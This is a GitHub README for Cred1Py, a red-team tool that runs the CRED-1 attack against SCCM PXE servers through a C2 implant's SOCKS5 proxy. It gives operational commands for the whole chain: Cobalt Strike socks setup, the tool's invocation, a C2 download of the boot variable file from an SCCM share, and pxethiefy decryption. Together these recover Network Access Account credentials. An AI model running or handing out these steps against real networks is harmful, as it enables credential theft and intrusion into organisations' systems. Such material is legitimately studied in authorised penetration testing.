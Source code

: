 ## Overview

This is a tool used to exploit CRED-1 over a SOCKS5 connection (with UDP support).

## Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

## Usage

To use Cred1Py:

Start a SOCKS5 proxy via your C2, for example, CS uses the command:

```
> socks 9090 socks5 enableNoAuth a b
```

Then we can invoke Cred1py with:

```
python ./main.py <target> <src_ip> <socks_host> <socks_port>
```

Where:

* Target - The SCCM PXE server IP
* SRC_IP - The IP address of the host we are running the implant on
* SOCKS_HOST - The IP of the team server running SOCKS5
* SOCKS_PORT - The SOCKS5 port

Note: Due to the way that SOCKS5 works, the C2 server will need to be accessible on all ports to Cred1py as a second ephemeral port is opened as part of the relaying of UDP traffic. Easiest method is usually to just run Cred1py on the C2 server and target `localhost`.. but you do you!

## How CRED-1 Attack Works

CRED-1 can be broken down into the following steps:

1. Send a DHCP Request for the PXE image over UDP 4011
2. SCCM responds with image path and crypto keys to decrypt the referenced variables file

At this stage, two files are downloaded over TFTP, for example:

1. `2024.09.03.23.35.22.0001.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.var`
2. `2024.09.03.23.35.22.07.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.bcd`

Next CRED-1 takes the crypto keys returned in the DHCP response, and takes one of two paths depending on the content:

1. If the crypto key is provided, password based encryption is disabled, and therefore a key derivation function is run to produce an AES key to decrypt the variables file

OR

2. If no crypto key is provided, password based encryption is enabled, and a HashCat ouotput is produced from the variables file to allow us to recover the encryption key

Once the key has been recovered (or provided), the variable file can be decrypted and the contents can be used to retrieve Network Access Account username/password.

Further information on this attack can be found in [Misconfiguration Manager](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md).

## How Cred1Py Works

Cred1Py attempts to perform this flow over a SOCKS5 connection, due to UDP support being provided as part of the SOCKS5 specification and included in products such as Cobalt Strike.

There are a few differences to the Cred1py implementation to tools like PxeThiefy as SOCKS5 limits our ability to retrieve TFTP files (we can't determine the source port used during the data transfer and therefore can't download more than a handful of bytes).

This means that the requirements for Cred1Py are:

1. An implant executing with SOCKS5 enabled
2. Ability to make a SMB connection to a distribution server (this replaces the TFTP component of PxeThiefy)

Once the requirements are met, Cred1Py:

1. Sends a DHCP Request for the PXE image and crypto key
2. Retrieves the crypto keying material
3. Downloads the first 512 bytes of the variables file (possible as this is sent by TFTP server without establishing a TID which needs source port)
4. Outputs either a crypto key, or a hashcat hash, as well as the path to the boot variable file returned via DHCP

At this point, we will need to use our C2 to download the boot variable file, for example in Cobalt Strike we can use:

```
download \\sccmserver.lab.local\REMINST\SMSTemp\BootFileName.boot.var
```

Now if you have a password to crack.. crack it and then pass it as an argument to `pxethiefy.py`:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var PASSWORD_HERE
```

However, if no PXE password is set, you'll be given the crypto key. This will need to be added to `pxethiefy.py`. Easiest way is just to mod `decrypt_media_file` in `pxethiefy.py` to use the binary key, for example:

`decrypt_media_file(args.mediafile, b'\x41\x42\x43\x44.......'):`

We then use PxeThiefy.py to decrypt the `boot.var` file with our recovered key by just invoking with any old password:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var USE_THE_SOURCE_LUKE
```

## Credits

* Christopher Panayi, the original researcher of CRED-1 and the PxeThief OG Tool - https://github.com/MWR-CyberSec/PXEThief
* Carsten Sandker and his awesome Pxethiefy.py Tool which this is based on - https://github.com/csandker/pxethiefy

